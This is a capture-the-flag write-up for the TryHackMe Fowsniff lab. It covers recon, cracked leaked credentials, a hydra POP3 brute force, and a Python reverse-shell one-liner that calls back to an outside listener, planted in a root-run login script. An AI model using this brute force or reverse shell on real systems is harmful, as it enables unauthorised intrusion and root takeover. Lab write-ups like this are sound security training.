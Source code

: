 ## Fowsniff_CTF

'export IP=10.10.195.86'

## Hack into the FowSniff organization.
First stage is to do an initial nmap Scan of the IP address given using the nmpa command `nmap -sC -sV -oN nmap/initial $IP`
Once the results from this scan are given which shows that port 80 is open we can do some web enumeration will running a full port scan of the box `nmap -p- -sC -sV -oN nmap/Full $IP`

While that is running we can use gobuster to do a full website `gobuster dir -u http://$IP:80 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan`
We can also check out the website and see if that holds any clues manually.

![Fowsniff webpage](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Fowsniff_webpage.PNG)

Looking at the page manually did not give us any information so we can also use Google to search the web which allows us to find a twitter account connected to the corporation with the twitter handle `@Fowsniff` When reading the tweets it shows that there are two pastbins linked which are supposedly the passwords for the corporation
The first paste bin
`https://pastebin.com/NrAqVeeX`
The second paste bin
`https://pastebin.com/378rLnGi`

The first one is more important as it contains usernames and hashes and using crackstation to crack the md5 hashes you get:
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd:
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972

With the details we have gathered we can then try and bruteforce the pop3 as the pastebin said that the pop3 server was open.
For this we create a user and password files so that they can be used with hydra

`hydra pop3://$IP -L users.txt -P passwords.txt`

![hydra result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Hydra_Result.PNG)

this shows that we can login with seina and password scoobydoo2

using this information we can then use netcat to connect to the pop3 server to see if we can get any extra information
`nc 10.10.195.86 110`
Once logged in we find there are two emails

![email result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email_Login.PNG)

retrieving email 1

![mail message1](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email 1.PNG)

Within this email it shows that there is a temporary SSH Password S1ck3nBluff+secureshell

![mail message2](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email2.PNG)

Looking at the second email it seems nothing important although there is a user-name we have not seen before and that is baksteen.

So using this information we can try and ssh into the box 
`ssh baksteen@$IP` with the password S1ck3nBluff+secureshell
This information allows us to login
![SSH Login](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/SSH_Login.PNG)
we can then use the command `id` to find what groups baksteen belongs to and we find out that he belongs to two different groups users and baksteen so using this information we want to enumarate the box.
`find / -group users -type f 2>/dev/null`
looking at the results there is one file that looks interesting /opt/cube/cube.sh
![Enumeration Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/enumeration.PNG)

When using vi on the cube.sh file we find it is the information for the ssh login page as such we could use this to get a reverse shell on the box as this is run by root.

Before we get a revershell we need to know what the box has on it already to run the command the first thing to try is python and python3
running the command `python` tells us that we have python3 installed so we can use python3 to get us a reverse shell using the command from this [pen-test monkey page](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![Reverse Shell](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShell.PNG)

we can then test that this revers shell works by listening on the given port and you should see the following:

![Reverse Shell Test](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShellTest.PNG)

Once we confirmed the sell works we want to exit the ssh shell and restart the netcat listener before trying to login in again and once you are then logged in again you should get the following:

![Reverse Shell Root SSH](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ssh_reverseshell.PNG)

![Reverse Shell Root](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/root_reverseshell.PNG)

Now that we have the reverse shell we can go to roots home folder and find flag.txt.

![Root Flag](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Flag.txt.PNG)
